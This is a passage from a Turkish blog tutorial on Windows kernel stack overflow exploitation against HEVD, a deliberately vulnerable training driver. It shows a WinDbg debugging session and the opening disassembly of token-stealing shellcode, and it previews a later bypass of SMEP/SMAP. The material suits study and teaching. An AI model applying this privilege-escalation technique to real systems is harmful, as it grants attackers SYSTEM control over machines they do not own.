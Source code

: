 Bu arada, eğer işleyişi daha detaylı görmek isterseniz -ki, kesinlikle tavsiye ediyorum-  Windbg içerisinden `StackOverflowIoctlHandler` fonksiyonuda bir durma noktası tanımlayıp, devamında bu durma noktasına geldiğinizde kullanıcı modundan gönderilen veriyi analiz edip "*shellcode*"umuz başlangıcına bir durma noktası koyarak satır satır çalıştırıp gözlerinizle olan biteni inceleyebilirsiniz. 

```
2: kd> x /D /f HEVD!Stack*
HEVD!StackOverflowGSIoctlHandler (struct _IRP *, struct _IO_STACK_LOCATION *)
	fffff880`05317710 HEVD!StackOverflowIoctlHandler (struct _IRP *, struct _IO_STACK_LOCATION *)

2: kd> bp HEVD!StackOverflowIoctlHandler
2: kd> g
****** HACKSYS_EVD_STACKOVERFLOW ******
Breakpoint 0 hit
HEVD!StackOverflowIoctlHandler:
	fffff880`05317710 4883ec28        sub     rsp,28h

2: kd> t 2
HEVD!StackOverflowIoctlHandler+0x4:
fffff880`05317714 488b4a20        mov     rcx,qword ptr [rdx+20h]
HEVD!StackOverflowIoctlHandler+0x8:
fffff880`05317718 8b5210          mov     edx,dword ptr [rdx+10h]

2: kd> bp poi(rcx+0n2056)
2: kd> g
[+] UserBuffer: 0x0000000000030000
[+] UserBuffer Size: 0x810
[+] KernelBuffer: 0xFFFFF880058DCFA0
[+] KernelBuffer Size: 0x800
[+] Triggering Stack Overflow
Breakpoint 1 hit
00000000`0022fbf4 50              push    rax

2: kd> u
00000000`0022fbf4 50              push    rax
00000000`0022fbf5 65488b142588010000 mov   rdx,qword ptr gs:[188h]
00000000`0022fbfe 4c8b5a70        mov     r11,qword ptr [rdx+70h]
00000000`0022fc02 4d8b9388010000  mov     r10,qword ptr [r11+188h]
00000000`0022fc09 498b0a          mov     rcx,qword ptr [r10]
00000000`0022fc0c 488b51f8        mov     rdx,qword ptr [rcx-8]
00000000`0022fc10 4883fa04        cmp     rdx,4
00000000`0022fc14 7405            je      00000000`0022fc1b

```

Evet, yazı dizimizin ilk yazısının sonuna geldik. Gördüğünüz gibi çekirdek modunda yığın taşması zafiyetinin temel mantığı oldukça basit, hatta kullanıcı modundakinin tamamen aynısı. Tek farkı, yazacağınız "*shellcode*" kullanıcı modundakinden farklı oluyor ve sistemin çökmesini engellemeniz gerekiyor. Sonraki yazılardan birinde bu yığın taşmasının SMEP/SMAP açık olduğunda nasıl "*exploit*" edilebileceğini de göstereceğim. Aslında bi minicik ipucu vereyim, biraz geriye dönük çalışacağız sadece, hehe. 

İnşallah en kısa zamanda diğer yazıda görüşmek üzere, sevgiler.


[^1]: "*Exploit*" kelimesi için Türkçe ne kullanabiliriz? Şahsen Sömürgeç kelimesini öneriyorum, başka fikri olan?
[^2]: **SMEP** (Supervisor Mode Execution Prevention) - Çekirdek modundaki bir kodun, kullanıcı modundaki bir alanda kod çalıştırmasını engelleyen güvenlik mekanizması.
[^3]: **SMAP** (Supervisor Mode Access Prevention) - Çekirdek modundaki bir kodun, kullanıcı modundaki bir alandaki veriye direkt olarak erişimi engelleyen güvenlik mekanizması.
[^4]: "*Shellcode*" kelimesi için Türkçe ne kullanabiliriz? Ağırlıklı olarak "Kabuk Kod" kelimesinin kullanıldığını sanıyorum fakat bana çok düz bir çeviri gibi geliyor.
[^5]: **Parametre**, fonksiyonun imzasında bulunan elemanlardan bahsedilirken kullanılır, **Argüman** ise bu fonksiyon çağırılırken parametrelere verilen değerlerden bahsedilirken kullanılır.